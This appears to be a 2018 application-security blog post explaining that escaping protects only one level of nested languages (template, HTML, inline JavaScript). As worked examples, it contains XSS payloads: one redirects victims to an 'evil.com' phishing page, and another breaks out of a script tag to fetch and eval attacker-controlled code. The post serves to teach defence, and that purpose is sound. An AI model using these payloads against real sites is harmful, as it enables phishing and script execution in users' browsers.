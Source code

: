 Title: Escape-Bypassing Language Injection: Exploiting Multiple-Level Language Embedding
Date: 2018-03-03 20:14
Tags: appsec, escaping, web

When a fix for a well-known vulnerable programming practice becomes widely
known, it runs the risk of being applied blindly without context, defeating its
very purpose. Escaping input for embedded languages like SQL and JavaScript is a
common example of this.

Many developers escape their SQL parameters and user inputs to the DOM because
they know escaping is required by the library to avoid attacks like SQL
Injections; in fact, the documentation of their library probably had a section
in red with an exclamation mark to emphasise the fact. They see what escaping is
needed, apply it, and then continue. The documentation says the code is now
safe, so what is there to worry about?

The broader problem isn't a specific API needing to be called in a certain
way with an escaping mechanism. The problem is instead specifically about
passing data from outer languages to nested inner languages, and how that
conversion is done while maintaining obvious semantics without unexpected
effects.

An unexpected effect might be new distinct SQL operations being appended to a
string that was indended to be solely part of a `WHERE` clause. The problem is
that the outer language, say, Java, didn't understand that its string should
only have applied as an operand of `=` in the `WHERE`. It only understood the
whole string as a single token, rather than a sequence of SQL tokens that have
its own set of rules.

Escaping mechanisms, such as parameterised SQL queries, translate from a more
general construct in an outer language, like a string in Java or a text node in
HTML, into a more specific construct in an inner language. It is through that
analysis of a more general outer construct that it realises that, despite it
being a Java string like any other, it has constructs that cause unintended
semantics in the inner language, and it needs to transform it to match expected
behaviour.

Lest this sound like pointless theorising, let's get to the point of this post:
seeing escaping just as a "library feature we use to secure this code" and
ignoring the theory of language embedding and escaping will lead to security
holes. For example, we might escape HTML in a server-side template within an
inline script tag, but not realise that escaping HTML only protects the HTML,
not languages nested inside of it like JavaScript.

_Escaping mechanisms only traverse a single level of language embedding._

In that example we have the server-side templating language, the HTML, and the
inline JavaScript. That means escaping must be done twice to traverse from the
template to the JavaScript.

Consider this example using a hypothetical Groovy-like templating language,
using `${}` as placeholders:

    :::html
    <!DOCTYPE html>
    <head>
        <meta charset="UTF-8">
    </head>
    <body>
        <script>
            const initialPayload = {
                currentUserId: ${escapeHTML(currentUser.id)},
                currentUserName: "${escapeHTML(currentUser.name)}",
                welcomeMessage: `Welcome, ${escapeHTML(currentUser.name)}`,
            };
        </script>
    </body>

Reading the documentation for the templating language, a developer will read
that "using `escapeHTML` avoids injection attacks from user input" and be
satisfied.

An adversary then enters this as their name:

    :::
    A"+(window.location="https://evil.com/phishing-page")+"B

`escapeHTML` dutifully searches for angle brackets and other HTML characters
that need to be escaped, finds none, and lets it though unaltered:

    :::html
    <!DOCTYPE html>
    <head>
        <meta charset="UTF-8">
    </head>
    <body>
        <script>
            var initialPayload = {
                currentUserId: 42,
                currentUserName: "A"+(window.location="https://evil.com/phishing-page")+"B",
                welcomeMessage: `Welcome, A"+(window.location="https://evil.com/phishing-page")+"B`,
            };
        </script>
    </body>

`currentUserName` becomes `"AB"`, or at least it would if the page were not
redirected to a phishing webpage beforehand.

The escaping was bypassed by injecting one level deeper than the language doing
the escaping, injecting an inner language to bypass the escaping of the outer
one.

The direction of this can be flipped too.

As a rather convoluted example, a webapp teaching programming to beginners
allows users to enter JavaScript code into "holes" in JavaScript programs
displayed by the browser. For example, the exercise asks them to fill in a
placeholder like this to make a loop terminate:

    :::javascript
    const chances = 10;
    let chanceNumber = 0;
    while (______) {
        const correct = askUserForGuess();
        if (correct) {
            break;
        }
        chanceNumber += 1;
    }

Users can share solutions with each other to encourage collaboration. Realising
this, the developers expose a new function to the server-side templating
language for only allowing simple JavaScript expressions consisting of numbers,
symbols, arithmetic, strings, and boolean operators. Assignments, object and
array lookups, and all other forms of operations are blacklisted. They might
use a regular expression like this:

    :::perl
    /
        ^

        (?:

            # Symbols
            (?: \w (?:\w|\d)* )

                # Numeric operators
                | (?: [+-/*] | (?:[*][*]) | [()])

                # Boolean operators
                | (?: ! | (?:===?) | (?:!==?) | [<>])

                # Numbers
                | (?: [-+]? (?: (?:\d+) | (?:\d?\.\d+)))
        )+

        $
    /x

The escaping function is named `escapeSimpleJSExpression`, and the server side
template for this particular exercise becomes:

    :::html
    <script>
        const chances = 10;
        let chanceNumber = 0;
        while (${escapeSimpleJSExpression(getUsersCurrentExerciseAttempt().placeholderInputs[0])}) {
            const correct = askUserForGuess();
            if (correct) {
                break;
            }
            chanceNumber += 1;
        }
    </script>

The proposed escaping is restrictive enough to stop the sort of bypasses you
find in
[Angular 1 sandbox escapes](https://gist.github.com/jeremybuis/38c01acae19fc2ac6959).
There are some possible injection points here, as parentheses allow function
invocations, and traversing standard browser objects is possible with dots.
The lack of strings and square brackets limits injections though, and stops
injection-friendly JavaScript subsets like
[JSFuck](https://en.wikipedia.org/wiki/JSFuck).

However, that escaping still allows division, less-than operators, and symbols.
`</ script>` therefore works, which allows the escaping in the inner language
to be bypassed by injecting the outer language. With division, parentheses,
and dots allowed for arithmetic expressions, a whole remote-script loading
injection can be composed:

    :::
    </script><form>/me/profile</form><script>eval(JSON.parse(fetch(Array.from(document.forms).pop().textContent)).data.aboutMe)</script><script>

Using `fetch` and `eval` allows it to post-process payloads from the site. For
example, the adversary might put
`window.location = "https://evil.com/phishing-page"` in their user profile's
About Me section, which it can then load via the site's API with fetch and
inject into the page of anyone viewing the completed exercise.

As strings are banned, it cannot pass the URL as a string to `fetch`. Single
assignment operators are banned too, so assigning an ID to a new element that
contains the URL it needs, and looking it up in JavaScript will not work
either. Storing the URL in outer elements and pulling the value out of the
`textContent` in JavaScript usually won't work because selecting that element
requires a complex selector to avoid selecting other elements on the page, whose
attribute on the element will use the banned character `=`.

The adversary can use one of the rather old-school `document` properties like
`forms` and then `pop` the result off rather than using the banned array
indexing operator. A more stealthy attack would refine this to hide the text
content in some way and avoid the new block element `form` disrupting the DOM
flow, and perhaps even removing it from the DOM when done with `.removeChild`.

Escaping out of the inner language by using the outer language, the restricted
character set suddenly went from being quite restrictive into allowing
remote-script execution.

There are easy ways to fix those examples. If the JavaScript whitelister used
a real parser rather than regular expressions, `</` would be thrown out.
Running the code in a sandboxed `iframe` would be a better idea. The first
injection example could be easily thwarted by doing more server-side
whitelisting of input.

Server-side whitelisting is usually a shim though, and should only be done for
validating the domain of data, not for blocking injections. Changing view
technologies such as employing a new templating system breaks anti-injection
validation done on existing data, leading to complex, potentially-lossy
alterations of existing data. Using proper parsers does not solve the injection
problem, it just reduces the likelihood, as many injections rely on sloppy
handling of input.

Escaping data properly and not caring about what characters can potentially
inject is a better approach. The best solution is to not embed languages
unnecessarily, and to never do more than one-level of nesting. If you _must_,
escaping must be done for every traversal, so twice when there are three
languages in play.
